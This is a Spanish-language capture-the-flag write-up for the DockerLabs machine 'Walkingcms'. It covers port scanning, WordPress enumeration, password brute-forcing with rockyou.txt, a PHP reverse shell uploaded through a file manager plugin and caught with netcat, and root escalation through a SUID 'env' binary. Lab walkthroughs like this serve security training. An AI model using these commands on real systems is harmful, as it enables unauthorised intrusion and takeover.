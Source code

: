 ```yaml
---
title: Walkingcms - DockerLabs
published: true
categories: DockerLabs
---
```



| OS     | Dificultad  | Creator           |
| ------ | ----------- | -------------     | 
| Linux  |  Fácil      | El Pingüino de Mario        | 


# Reconocimiento

Comenzamos el proceso de reconocimiento identificando los puertos abiertos en el sistema objetivo. 
```shell
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG ports 
```
-  `-p-`: Escanea todos los puertos (1-65535).
- `--open`: Solo muestra los puertos abiertos.
- `-sS`: Realiza un escaneo SYN, que es rápido y discreto.
- `--min-rate=5000`: Envía al menos 5000 paquetes por segundo, acelerando el escaneo.
- `-n`: No realiza resolución DNS.
- `-Pn`: No realiza ping previo para determinar si el host está activo.
- `-vvv`: Muestra resultados detallados y en tiempo real.

![image](https://github.com/user-attachments/assets/77dd604e-5f54-4f49-88d9-895340426162)

Durante el escaneo, descubrimos que los siguientes puertos están activos:
- `80` (HTTP)
A continuación, evaluamos si los puertos abiertos presentan alguna vulnerabilidad, además de obtener más información sobre los servicios asociados a esos puertos.
```bash
nmap -p80 -sCV 172.17.0.2 -oG targeted
```
![image](https://github.com/user-attachments/assets/75e7bf0e-7097-4921-b52b-9ec1ed2d04fa)

# Exploración Web
Al analizar el puerto `80`, encontramos la página por defecto de Apache.

![image](https://github.com/user-attachments/assets/c43ac784-f5dd-4088-b5a9-5570e59d20d1)

Utilizamos `Gobuster` para realizar un reconocimiento web y explorar los directorios disponibles en el sitio.
```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,doc,html,txt,img
```
- `gobuster dir` - Indica que estás utilizando la herramienta Gobuster para realizar un escaneo de directorios.
- `-u http://172.17.0.2/` Especifica la URL objetivo que deseas escanear en busca de directorios.
- `-w` Especifica que diccionario queremos usar
- `-x` Para indicar que tipo de extension queremos que nos encuentre

![image](https://github.com/user-attachments/assets/3aeea9c2-a7b0-441b-ad88-37f2e78fc97d)

Identificamos la ruta `/wordpress`.

# Wordpress

Utilizamos `wpscan` para investigar vulnerabilidades y usuarios en el sitio de **WordPress**:
```bash
wpscan --url http://172.17.0.2/wordpress -e 
```
![image](https://github.com/user-attachments/assets/6523fb18-311e-40ae-b49b-eae65ac1cd09)

Descubrimos al usuario `mario`, y procedimos a realizar fuerza bruta para acceder con su cuenta.

## Fuerza bruta.
Usamos la herramienta `wpscan` con el diccionario `rockyou.txt` para intentar descubrir la contraseña:
```bash
wpscan --url http://172.17.0.2/wordpress -U mario -P /usr/share/wordlists/rockyou.txt
```
Encontramos que la contraseña de `mario` es `love`.

![image](https://github.com/user-attachments/assets/d3ebd0d3-b0d9-4bfb-b631-bcf668240a65)

Al acceder con `mario`, observamos que tiene privilegios de administrador, lo cual nos permite añadir el plugin `FILE MANAGER` para cargar un archivo `shell.php` y acceder mediante una **reverse shell**.

## Reverse Shell

Creamos un archivo `shell.php` cargado con una reverse shell usando la herramienta de [Reverseshell de Pentest Monkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php).

![image](https://github.com/user-attachments/assets/f8cd26c8-08bb-459d-b45b-5f761626f3e1)

Una vez subido, accedemos a la ruta `/wordpress/shell.php` para ejecutar la shell.

Simultáneamente, iniciamos `netcat` en nuestro sistema para escuchar conexiones entrantes:

```bash 
nc -lvnp 4444
```
Al acceder a la reverse shell desde el navegador, logramos obtener acceso como `www-data`.

![image](https://github.com/user-attachments/assets/4456d8d6-70d2-4f81-9684-0e5685581680)

Logramos acceso como` www-data`.

![image](https://github.com/user-attachments/assets/f06c2d36-dd9d-498e-bba4-20fb4e8df2e3)

## TTY ReverseShell

### Iniciar una sesión de shell interactiva
En nuestra shell básica, ejecutamos el siguiente comando para forzar la creación de una sesión de bash interactiva:
```bash
script /dev/null -c bash
```
### Suspender la shell
Una vez que el comando anterior está en ejecución, utilizamos
```bash
Control+Z
```
para suspender temporalmente nuestra shell.

### Preparar nuestro terminal local:
Antes de volver a nuestra shell, configuramos nuestro terminal local:
```bash
stty raw -echo; fg
```

### Resetear la configuración del terminal
Ahora que tenemos el control de la shell, la reseteamos para asegurar que se comporta correctamente:
```bash
reset
```

### Configura el tipo de terminal:
```bash
xterm
export TERM=xterm
export SHELL=bash
```

# Escalada de Privilegios

Ejecutamos el siguiente comando para encontrar archivos con permisos `SUID`, que pueden ayudar en la escalada de privilegios:
```bash
find / -perm -4000 2>/dev/null
```
Descubrimos que podemos ejecutar el comando `env` con permisos de root, lo cual aprovechamos de la siguiente manera:
```bash
/usr/bin/env /bin/sh -p
```
Ahora, hemos escalado privilegios a `root`.

![image](https://github.com/user-attachments/assets/46fca506-c321-431e-8c4a-50f1c08fac4a)
